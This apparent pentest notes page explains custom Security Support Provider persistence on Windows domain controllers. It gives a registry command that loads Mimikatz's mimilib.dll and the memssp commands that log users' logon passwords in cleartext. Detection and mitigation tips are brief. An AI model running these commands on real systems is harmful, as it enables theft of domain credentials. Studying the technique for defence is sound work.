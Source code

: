 # Custom SSP

## Description

A Security Service Provider (SSP) is implemented via the Security Support Provider Interface (SSPI) which is part of the Windows Client Authentication Architecture.

The SSPI will dictate what protocols systems should use to authenticate between each other when communicating. The default protocol is Kerberos, however when not possible the following may also be utilized:

| SSP Protocol  | File Location                    |
| ------------- | -------------------------------- |
| Negotiate SSP | C:\Windows\System32\lsasrv.dll   |
| Kerberos SSP  | C:\Windows\System32\kerberos.dll |
| NTLM SSP      | C:\Windows\System32\msv1\_0.dll  |
| Schannel SSP  | C:\Windows\System32\Schannel.dll |
| Digest SSP    | C:\Windows\System32\Wdigest.dll  |
| CredSSP       | C:\Windows\System32\credssp.dll  |

## Exploitation - Persistent

It is possible to inject a custom SSP into a target Domain Controller which can be used to intercept credentials and store them for later retrieval in plain text. Mimikatz comes with the ability to perform this interception with the `mimilib.dll` provided.

Copying the `mimilib.dll` file from Mimikatz into the SYSTEM32 folder and then adding the `mimilib.dll` file as a security package with the below command.

```bash
# Create Key
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ /f
# Confirm changes
reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"
```

![](<../../../.gitbook/assets/image (2018).png>)

After completing and confirming changes, when a user next authenticates against the Domain Controller the credentials will be captured in cleartext in a file called `kiwissp.txt` inside SYSTEM32.

![](<../../../.gitbook/assets/image (2017).png>)

As these changes are made to the registry and a permanent file is dropping into SYSTEM32 this attack vector will persist after reboots.

## Exploitation - In Memory

The same process can be performed by injecting a new SSP provider directly into memory with Mimikatz. This technique however, will not persist after a reboot.

{% tabs %}
{% tab title="Mimikatz" %}
```
privilege::debug
misc::memssp
```
{% endtab %}
{% endtabs %}

![](<../../../.gitbook/assets/image (2015).png>)

When someone next authenticates against the Domain Controller the file `mimilsa.txt` in System32 will be generated and contain cleartext logon credentials.

The below example was generated from one of the Domain Administrators called Moe logging on interactively to the Domain Controller and his resulting credentials being logged.

![](<../../../.gitbook/assets/image (2016).png>)

## Detection

* Monitor for changes made to `"HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages"`

## Mitigation

* Protect Domain Administrator accounts

## References

**Security Support ProviderInterface:**[https://en.wikipedia.org/wiki/Security\_Support\_Provider\_Interface](https://en.wikipedia.org/wiki/Security\_Support\_Provider\_Interface)

***

**Security Support Providers (SSPs):**[https://docs.microsoft.com/en-us/windows/win32/rpc/security-support-providers-ssps-](https://docs.microsoft.com/en-us/windows/win32/rpc/security-support-providers-ssps-)

{% embed url="https://en.wikipedia.org/wiki/Security_Support_Provider_Interface" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/rpc/security-support-providers-ssps-" %}

{% embed url="https://adsecurity.org/?p=1760" %}
